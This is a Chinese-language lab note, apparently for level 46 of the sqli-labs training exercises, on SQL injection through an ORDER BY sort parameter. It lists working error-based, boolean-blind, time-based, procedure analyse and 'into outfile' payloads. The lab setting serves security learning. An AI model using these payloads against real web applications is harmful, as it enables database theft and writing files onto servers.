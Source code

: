 

### 46、order by 后的注入

==out file 型注入没测试，需要设置mysql中secure-file-priv的值==

>   本关的固定 sql 语句为$sql  = "SELECT * FROM users ORDER BY $id
>
>   需要尝试使用 sort、desc、asc进行注入
>
>   ```sql
>   让right（）等于一个数字是错误的，然后使用布尔值注入
>       可以使用报错注入和延时注入
>       同时也可以用?sort=1 and 后添加注入语
>       
>   此处可以直接构造 ?sort= 后面的一个参数。此时，我们可以有三种形式，
>       1、直接添加注入语句，?sort=(select ******)
>       2、利用一些函数。例如 rand()函数等。?sort=rand(sql 语），可以利用这个特点去猜测数据名或表名
>          猜对了只会显示一种，猜错了会一直显示另一种排序方式
>      		sort=rand(true)  或 sort=rand(false)
>                                        
>          
>   -- 报错注入                                     
>   ?sort=(select count(*) from information_schema.columns group by concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand()*2)))
>                                        
>   -- 在此使用rand函数，rand的结果只有true和false，这样就阔以一直猜测数据名
>   ?sort=rand(ascii(left(database(),1))=115) false
>   ?sort=rand(ascii(left(database(),1))=178) true
>                                        
>   -- 延时注入例子
>   ?sort= (SELECT IF(SUBSTRING(current,1,1)=CHAR(115), BENCHMARK(50000000,md5('1')),null) FROM (select database() as current) as tb1) 
>   
>   -- 猜错就会一直转圈圈                                     
>   ?sort=1 and If(ascii(substr(database(),1,1))=116,0,sleep(5))      
>                                        
>   ```
>
>   
>
>   ```sql
>   -- procedure analyse注入
>   ?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)
>   
>   -- 导入导出out file参数注入
>   ?sort=1 into outfile %22c:\\wamp\\www\\sqllib\\test1.txt%22
>   ?sort=1 into outfile %22D:\program_files\phpstudy_pro\WWW\sqli-labs-master\Less-46\test1.txt%22
>   ```
>
>   

#### 【47】
